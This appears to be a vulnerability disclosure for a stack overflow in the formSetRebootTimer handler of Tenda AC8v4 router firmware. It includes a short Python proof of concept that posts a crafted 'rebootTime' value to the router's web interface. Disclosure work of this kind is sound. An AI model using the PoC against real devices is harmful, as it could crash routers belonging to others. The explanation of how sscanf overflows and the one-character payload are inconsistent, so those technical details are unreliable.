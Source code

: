 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3683.html

## Affected version

AC8v4 V16.03.34.09

## Vulnerability details

The Tenda AC8v4 V16.03.34.09 firmware has a stack overflow vulnerability in the `formSetRebootTimer` function. The `v4` variable receives the `rebootTime` parameter from a POST request and is later assigned to the function `sub_4A8838(v4);`. However, since the user can control the input of `rebootTime`, the statement `v1 = sscanf(a1, "%d:%d", &v3, &v4);` can cause a buffer overflow. The user-provided  `rebootTime` can exceed the capacity of the `v3, v4` array, triggering this security vulnerability.

![image-20240415132942840](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415132942840.png)

![image-20240415133115939](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415133115939.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetRebootTimer"
payload = "a"*1

data = {"rebootTime": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240415125733742](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240415125733742.png)